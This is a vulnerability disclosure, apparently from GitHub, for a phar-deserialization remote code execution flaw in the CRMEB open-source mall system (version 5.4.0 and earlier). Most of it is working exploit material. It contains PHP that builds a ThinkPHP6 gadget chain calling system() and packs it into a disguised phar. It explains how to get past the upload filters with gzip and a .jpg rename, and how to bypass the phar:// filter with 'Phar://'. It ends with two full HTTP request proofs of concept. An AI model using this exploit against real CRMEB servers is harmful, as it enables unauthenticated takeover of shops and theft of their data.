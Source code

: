 BUG_Author:

Rui Jie

Affected version:

Version<=5.4.0

Vendor:
https://www.crmeb.com/

CRMEB open source mall system

Software:
https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:

app/api/controller/v1/PublicController.php

app/common.php

Description:
 A vulnerability categorised as critical has been identified in CRMEB. This affects the put_image section of the file common.php. Manipulation of the image/code parameter results in phar deserialisation enabling the RCE
 
 It's a complicated process.
 
 This system is based on thinkphp6 again, I can get the available deserialisation chain through code audit
 
```php
 <?php  
  
namespace think\model\concern;  
  
trait Attribute  
{  
    private $data = ["evil_key" => "calc"];  
    private $withAttr = ["evil_key" => "system"];  
}  
  
namespace think;  
  
abstract class Model  
{  
    use model\concern\Attribute;  
    private $lazySave;  
    protected $withEvent;  
    private $exists;  
    private $force;  
    protected $table;  
    function __construct($obj = '')  
    {  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->exists = true;  
        $this->force = true;  
        $this->table = $obj;  
    }  
}  
namespace app\model\product\product;  
  
use crmeb\traits\ModelTrait;  
use think\Model;  
  
  
class StoreProductCate extends Model  
{  
}  
  
$a = new StoreProductCate();  
$b = new StoreProductCate($a);  
echo urlencode(serialize($b));  
$phar = new \Phar('x.phar');  
$phar->stopBuffering();  
$phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar->addFromString('test.txt', 'test');  
$phar->setMetadata($b);  
$phar->stopBuffering();
```
This generates a phar file containing the available serialisations, I try to pop up the calculator locally
After any user has logged in, we can try to upload this file as an avatar, but there are some filters here

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122332062.png)
Both the suffix and the file content are restricted here
We can try to gzip the phar file to bypass the content detection, modify the extension to .jpg renamed 123.jpg

Please note that the generation of phar file immediately after the modification of the suffix name for the jpg and then gzip compression last modification of the suffix name for the 123.jpg

This means you have to change the file extension twice

I'll put 123.jpg here
![123.jpg](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130004529.jpg)

POC1

I tried to upload the image via direct packet, of course you can grab the normal image upload packet first and then modify the content of the file.

Note that here I'm using yakit's tags directly to read the contents of the local file 123.jpg before uploading it

```
POST /api/upload/image HTTP/1.1
Host: 127.0.0.21
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3eJTGWU51qa6ag3o
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Referer: http://127.0.0.21/pages/users/user_info/index
Origin: http://127.0.0.21
Accept-Encoding: gzip, deflate, br, zstd
Cookie: cb_lang=zh-cn; PHPSESSID=84e2385486352b76586e45157fd93cda; WS_ADMIN_URL=ws://127.0.0.21/notice; WS_CHAT_URL=ws://127.0.0.21/msg; XDEBUG_SESSION=11675
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Fetch-Mode: cors
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNDFkOGNkOThmMDBiMjA0ZTk4MDA5OThlY2Y4NDI3ZSIsImlzcyI6IjEyNy4wLjAuMjEiLCJhdWQiOiIxMjcuMC4wLjIxIiwiaWF0IjoxNzIwNzc0NDU2LCJuYmYiOjE3MjA3NzQ0NTYsImV4cCI6MTcyMzM2NjQ1NiwianRpIjp7ImlkIjoxLCJ0eXBlIjoiYXBpIn19.LeWiJQ-aB4EqFsXuWEur2iNuybXLyLzusTepZC896Gg
Sec-Fetch-Site: same-origin
Content-Length: 1437

------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="pics"; filename="123.jpg"
Content-Type: image/jpeg

{{file(D:\\123.jpg)}}
------WebKitFormBoundary3eJTGWU51qa6ag3o--

```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130007396.png)


You can get the location of the uploaded image
For example, here it is `http://127.0.0.21/uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg`
Now we can trigger it with the  `put_image` method in app/common.php(This is an unauthorised interface)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122345869.png)
There is a filter on phar://, which we can bypass with Phar://.
The readfile function will trigger the phar deserialisation implementation rce

POC2
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"Phar://./uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg","code":""}
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122354438.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130009247.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution

This means you may need to upload once, trigger once.

Now we can execute any command to implement RCE！
